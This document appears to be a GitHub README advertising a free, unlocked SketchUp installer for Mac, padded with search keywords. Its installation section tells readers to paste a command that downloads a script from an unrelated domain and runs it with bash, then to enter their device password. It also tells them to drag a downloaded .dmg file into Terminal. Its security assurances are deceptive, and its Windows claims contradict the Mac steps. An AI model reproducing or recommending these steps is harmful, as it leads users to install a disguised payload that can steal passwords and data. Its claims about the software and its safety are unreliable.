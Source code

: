 # 🧰 SketchUp Full Free Download Installer

**SketchUp Full Free Download Installer** is a lightweight and effective solution for getting the full version of SketchUp — a widely used 3D modeling software for architecture, interior design, engineering, and construction. With this tool, you can easily install SketchUp and start creating detailed models without subscription, trials, or technical setup.

Whether you're designing buildings, rooms, or concept models, this installer provides everything you need to bring your ideas to life using professional tools trusted by millions.

[![Download SketchUp](https://img.shields.io/badge/Download-SketchUp-blueviolet)](https://sketchup-download-mac.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 🛠 Key Features

- 🖥️ **Full version access with one-click install**  
- ✏️ **3D modeling, sketching, and rendering tools**  
- 🧱 **Ideal for architects, engineers, and students**  
- 🧩 **Supports plugins and visualization extensions**  
- 🪟 **Compatible with Windows 10/11**  
- 🔄 **No trial limits, ads, or registration required**

---


## 🎯 Why Use This Tool?

- 🔓 **Unlocks full functionality of SketchUp**  
- 🚀 **Saves time — skip account creation and trials**  
- 🧑‍🎨 **Perfect for quick concept work and client visuals**  
- 💼 **Widely used in professional industries**  
- 📁 **Offline installer with no internet required post-download**  
- 🛠️ **Expandable with rendering and modeling plugins**

You’ll be working on real projects within minutes of installation.

---

## 🛡 Security & Compatibility

- 🧪 **Tested on multiple Windows builds**  
- 🔐 **No bloatware, ads, or third-party software**  
- 🚫 **No login, activation key, or subscription needed**  
- 💻 **Stable and fast performance even on older PCs**

Use with confidence, knowing your device and data remain secure.

---

## 🖼 Preview

**1. SketchUp Installer Interface**  
![SketchUp Install](https://machow2.com/wp-content/uploads/2020/08/sketchup-for-mac-review.jpg)  


**2. SketchUp Workspace**  
![SketchUp UI](https://i.ytimg.com/vi/oSCzMzZ2U8Y/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLB3E3JFi_9um7em5Z8_-9RTV4EYvA)  


**3. Rendered 3D Model in SketchUp**  
![SketchUp Render](https://global.discourse-cdn.com/sketchup/original/3X/5/7/5731c7ac185bbe035e8aa2700e727aaa2540adac.jpeg)  


---

### 🔎 SEO Keywords

`sketchup mac`, `sketchup mac free download`, `enscape mac`, `enscape for mac`, `sketch up mac`,  
`sketch up for mac`, `sketchup macbook`, `sketchup free mac`, `vray for mac`, `sketchup for macbook air`,  
`sketchup mac os`, `sketch up download mac`, `sketchup osx`, `download sketch up mac`, `mac sketch up`,  
`mac sketchup download`, `sketch up for mac free`, `sketch up free for mac`, `sketch up free mac`, `vray sketchup mac`,  
`sketchup renderer mac`, `sketchup m1 mac`, `sketchup pro mac download`, `enscape vray mac`, `sketchup design mac`
